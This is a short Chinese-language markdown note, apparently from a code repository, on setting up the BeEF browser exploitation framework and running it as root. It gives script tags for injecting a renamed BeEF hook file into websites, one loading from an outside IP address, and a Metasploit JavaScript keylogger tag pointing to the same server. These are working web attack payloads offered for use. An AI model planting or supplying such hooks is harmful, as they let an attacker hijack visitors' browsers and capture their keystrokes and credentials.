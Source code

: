 beef的配置
=======

可能需要手动安装
```bash
gem install em-websocket
```
来解决问题

不知为何，打开程序一定要在root用户中通过
```bash
nohup ./beef &
```
来实现，而不能使用完整路径如
```bash
nohup /usr/share/beef-xss/beef &
```

## 使用的script
在网站内部使用
```javascript
<script>
	var commandModuleStr = '<script src="' + window.location.protocol + '//' + window.location.host + '/hokasa.js" type="text/javascript"><\/script>';
	document.write(commandModuleStr);
</script>
```
在网站外部使用
```javascript
<script src="139.162.69.124:3000/hokasa.js"> </script>
```

# msf的keylogger的地址
```javascript
<script type="text/javascript" src="http://139.162.69.124:8080/[ReplaceThis]/[whatever].js">
```
具体可以参考网址
https://community.rapid7.com/community/metasploit/blog/2012/02/21/metasploit-javascript-keylogger
